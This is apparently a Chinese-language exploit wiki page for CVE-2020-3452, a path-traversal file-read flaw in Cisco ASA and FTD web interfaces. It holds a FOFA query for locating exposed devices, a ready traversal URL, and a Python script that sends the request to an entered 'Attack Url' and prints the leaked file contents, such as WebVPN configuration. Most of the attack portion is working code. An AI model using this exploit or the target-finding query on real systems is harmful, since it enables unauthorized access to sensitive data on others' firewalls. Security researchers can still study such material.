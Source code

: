 # CISCO ASA设备任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

Cisco ASA设备

![](image/cisco-1.png)

Cisco FTD设备

![](image/cisco-2.png)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

FOFA语句查找

![](image/cisco-3.png)

**POC如下**

```
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件

![](image/cisco-4.png)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Cisco                                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vnln_url = target_url + "/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
    headers = {
        "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36"
    }

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    response = requests.get(url=vnln_url, headers=headers, verify=False ,timeout=20)
    if "Bad Request" in response.text:
            print("\033[31m[x] 漏洞已修复 \033[0m")
    else:
            print("\033[32m[o] 存在漏洞，响应为\n\033[0m",response.text)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/cisco-5.png)